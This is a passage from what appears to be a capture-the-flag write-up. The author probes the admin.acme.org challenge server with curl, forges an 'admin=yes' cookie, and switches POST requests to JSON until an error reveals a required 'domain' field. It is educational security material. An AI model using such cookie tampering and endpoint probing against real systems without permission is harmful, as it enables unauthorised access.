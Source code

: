 ```sh
```

So the only thing which is interesting above is that when we send a `POST` request, it gives a `406 Not Acceptable` instead of `405 Not Allowed` as with every other method.

So maybe it has something to do with `POST`. I tried sending some random `POST` data with the request, but no success.

```sh
jazzy@lolbox ~ $ curl -X POST -b 'admin=yes' -d 'random=test' 'admin.acme.org' -v
* Rebuilt URL to: admin.acme.org/
*   Trying 104.236.20.43...
* Connected to admin.acme.org (104.236.20.43) port 80 (#0)
> POST / HTTP/1.1
> Host: admin.acme.org
> User-Agent: curl/7.47.0
> Accept: */*
> Cookie: admin=yes
> Content-Length: 11
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 11 out of 11 bytes
< HTTP/1.1 406 Not Acceptable
< Date: Thu, 16 Nov 2017 12:21:05 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host admin.acme.org left intact

```

Still `406`.This got me thinking for quite a bit. I read a lot about `406`, and it usually sent when the server can't respond with the data types specified in `Accept` header. But since curl sends an `Accept` header of value `*/*`, which basically means accept any data type, something else is wrong.

What if instead of response, we are sending the wrong data type in the `POST` request itself? Although the server wouldn't normally respond with a `406` then, this was a CTF made by the legendary Jobert(The PHP hacker), widely known to make the life of hackers miserable. He might be giving us a hint about the data type by the `406`, although it isn't obvious. Maybe the `Content-Type` of the `POST` request is not of `application/x-www-form-urlencoded`, but maybe some other type.

So what's the other most used data type? yep, JSON. 

I fired up another post request with the `Content-Type` as `application/json`

```sh
jazzy@lolbox ~ $ curl -X POST -H 'Content-Type: application/json' -b 'admin=yes' 'admin.acme.org' 
{"error":{"body":"unable to decode"}}
```

Hmm, that's super interesting, it is trying to decode the JSON body, but since my request didn't have any JSON data, it returned an error. Let's try sending some random JSON

```sh
jazzy@lolbox ~ $ curl -X POST -H 'Content-Type: application/json' -b 'admin=yes' -d '{"random" : "data"}' 'admin.acme.org' 
{"error":{"domain":"required"}}
```
